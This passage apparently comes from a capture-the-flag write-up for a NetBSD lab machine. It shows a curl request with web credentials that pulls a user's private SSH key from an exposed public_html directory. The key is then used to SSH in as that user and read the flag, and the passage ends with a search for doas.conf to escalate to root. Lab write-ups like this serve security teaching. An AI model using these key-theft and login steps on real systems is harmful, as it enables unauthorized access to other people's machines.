     <tbody>
    <tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
    <tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
    </table>
    </body></html>
    

Directory listing is enabled (`-X` in the command line), and this shows a
single file, `id_rsa`. One more `curl` returns the private key:

    
    
    $ curl -s http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user:iamthebest
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
    ...[snip]...
    

A note - This is not reading the private key from the users `~/.ssh`
directory. For some reason, the user must have put their private key
intentionally in their `~/public_html` directory. Perhaps they figured since
it’s only on localhost it was less at risk there. Then again, it’s not clear
what use it provides the user there either.

### Shell via SSH

With a copy of this key, I can get a shell as r.michaels:

    
    
    oxdf@parrot$ ssh -i ~/keys/luanne-r.michaels r.michaels@10.10.10.218
    Last login: Fri Sep 18 07:06:51 2020
    NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020
    
    Welcome to NetBSD!
    
    luanne$
    

And grab `user.txt`:

    
    
    luanne$ cat user.txt
    ea5f0ce6************************
    

## Shell as root

### doas

`sudo -l` is the first thing I check on Linux hosts. The equivalent on BSD is
`doas`. The configuration file is a bit buried:

    
    
    luanne$ find / -name doas.conf 2>/dev/null
    /usr/pkg/etc/doas.conf
    
